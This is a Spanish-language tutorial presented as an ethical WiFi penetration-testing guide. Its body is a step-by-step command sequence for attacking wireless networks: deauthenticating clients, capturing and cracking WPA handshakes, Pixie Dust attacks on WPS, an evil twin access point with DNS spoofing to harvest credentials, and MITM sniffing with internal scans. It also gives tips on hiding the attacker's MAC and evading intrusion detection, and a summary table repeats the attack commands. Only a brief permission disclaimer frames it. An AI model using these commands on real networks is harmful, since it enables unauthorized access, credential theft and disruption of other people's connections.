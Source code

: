 

### Guía Completa para Pruebas de Seguridad en Redes WiFi (Hacking Ético)  
**Importante:** Esta guía es exclusivamente para fines educativos y de auditoría ética en redes **con permiso explícito** del propietario. El acceso no autorizado a redes WiFi es ilegal en la mayoría de los países.

---

### **Fase 1: Reconocimiento y Enumeración**  
#### **Objetivo:** Identificar redes WiFi disponibles y recopilar información básica.  
**Herramientas:** `airodump-ng`, `iwlist`, `nmcli`  

#### **Pasos:**  
1. **Poner la interfaz en modo monitor:**  
   ```bash
   sudo airmon-ng start wlan0   # Reemplaza "wlan0" con tu interfaz
   ```
   *Resultado:* Se creará una interfaz virtual (ej: `wlan0mon`).

2. **Escanear redes disponibles:**  
   ```bash
   sudo airodump-ng wlan0mon
   ```
   *Información obtenida:*  
   - BSSID (MAC del Access Point)  
   - ESSID (Nombre de la red)  
   - Canal  
   - Tipo de cifrado (WEP, WPA, WPA2, WPA3)  
   - Clientes conectados (STATION)  

3. **Filtrar red objetivo (ej: canal 6):**  
   ```bash
   sudo airodump-ng --bssid <BSSID> -c 6 wlan0mon
   ```

---

### **Fase 2: Captura del Handshake WPA/WPA2**  
#### **Objetivo:** Obtener el handshake (4 paquetes de autenticación) para crackear la contraseña.  
**Herramientas:** `airodump-ng`, `aireplay-ng`  

#### **Pasos:**  
1. **Iniciar captura de paquetes:**  
   ```bash
   sudo airodump-ng --bssid <BSSID> -c <canal> -w captura wlan0mon
   ```
   *Parámetros:*  
   - `-w captura`: Guarda datos en archivos `captura-*.cap`.

2. **Forzar reconexión de clientes (para capturar handshake):**  
   ```bash
   sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
   ```
   *Explicación:* Envía paquetes de desautenticación para forzar a los clientes a reconectarse, generando el handshake.

3. **Verificar handshake capturado:**  
   Cuando aparezca en la terminal:  
   ```
   WPA handshake: <BSSID>
   ```

---

### **Fase 3: Análisis de Contraseñas**  
#### **Objetivo:** Crackear el handshake usando diccionarios.  
**Herramientas:** `aircrack-ng`, `hashcat`  

#### **Pasos:**  
1. **Crackear con aircrack-ng:**  
   ```bash
   sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> captura-01.cap
   ```
   *Parámetros:*  
   - `-w`: Ruta al diccionario (ej: `rockyou.txt`).  
   - `-b`: BSSID del objetivo.  

2. **Alternativa con hashcat (más rápido):**  
   ```bash
   hcxpcapngtool -o hash.hc22000 captura-01.cap   # Convertir handshake a formato hashcat
   hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
   ```

---

### **Fase 4: Ataques a Vulnerabilidades Específicas**  
#### **A. Ataque WPS (Wi-Fi Protected Setup)**  
**Herramienta:** `reaver`  
```bash
sudo reaver -i wlan0mon -b <BSSID> -c <canal> -vv -K 1
```
*Parámetros clave:*  
- `-K 1`: Usa ataque Pixie Dust (para routers vulnerables).  
- `-vv`: Modo verbose.  

#### **B. Ataque Evil Twin (Punto de Acceso Falso)**  
**Herramientas:** `airbase-ng`, `dnsspoof`  
1. **Crear AP falso:**  
   ```bash
   sudo airbase-ng -e <Nombre_Red_Falsa> -c <canal> wlan0mon
   ```
2. **Configurar servidor DHCP y redirección:**  
   ```bash
   sudo dnsspoof -i at0 -f hosts.txt   # Redirigir tráfico a un servidor falso
   ```
3. **Capturar credenciales:** Usa herramientas como `Ettercap` o un servidor web falso.

---

### **Fase 5: Post-Explotación**  
#### **Objetivo:** Mantener acceso y escanear la red interna.  
**Herramientas:** `nmap`, `mitmproxy`  

#### **Pasos:**  
1. **Escanear dispositivos en la red:**  
   ```bash
   sudo nmap -sP 192.168.1.0/24   # Descubre hosts activos
   ```
2. **Sniffing de tráfico (MITM):**  
   ```bash
   sudo mitmproxy -T --host
   ```
3. **Escalada de privilegios:** Explota vulnerabilidades en dispositivos IoT o routers (ej: contraseñas por defecto).

---

### **Consejos Clave**  
1. **Diccionarios Personalizados:**  
   Genera diccionarios con `crunch` o `cewl` para aumentar probabilidades:  
   ```bash
   cewl http://sitio_web.com -w diccionario.txt
   ```

2. **Evitar Detección:**  
   - Usa `macchanger` para ocultar tu MAC:  
     ```bash
     sudo macchanger -r wlan0mon
     ```
   - Limita el tráfico de ataques para no alertar IDS.

3. **Legalidad:**  
   - **Siempre obtén permiso por escrito.**  
   - Documenta hallazgos y recomienda soluciones (ej: deshabilitar WPS, usar WPA3).

---

### **Resumen de Comandos Esenciales**  
| Acción                          | Comando                                      |
|---------------------------------|----------------------------------------------|
| Modo monitor                    | `sudo airmon-ng start wlan0`                 |
| Escanear redes                  | `sudo airodump-ng wlan0mon`                  |
| Capturar handshake              | `sudo airodump-ng -b <BSSID> -w captura wlan0mon` |
| Forzar reconexión               | `sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon` |
| Crackear contraseña             | `sudo aircrack-ng -w rockyou.txt captura-01.cap` |
| Ataque WPS                      | `sudo reaver -i wlan0mon -b <BSSID> -K 1`    |
| Evil Twin                       | `sudo airbase-ng -e "Red_Falsa" wlan0mon`    |
| Escanear red interna            | `sudo nmap -sP 192.168.1.0/24`              |

---

### **Recursos Recomendados**  
- **Diccionarios:**  
  - [SecLists](https://github.com/danielmiessler/SecLists)  
  - [RockYou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)  
- **Libros:**  
  - *"Wireless Network Hacking"* por Ankit Fadia.  
  - *"Penetration Testing: A Hands-On Introduction to Hacking"* por Georgia Weidman.  

**Nota:** La práctica constante en entornos controlados (ej: routers de prueba) es clave para dominar estas técnicas. ¡Usa el conocimiento con responsabilidad! 🔒
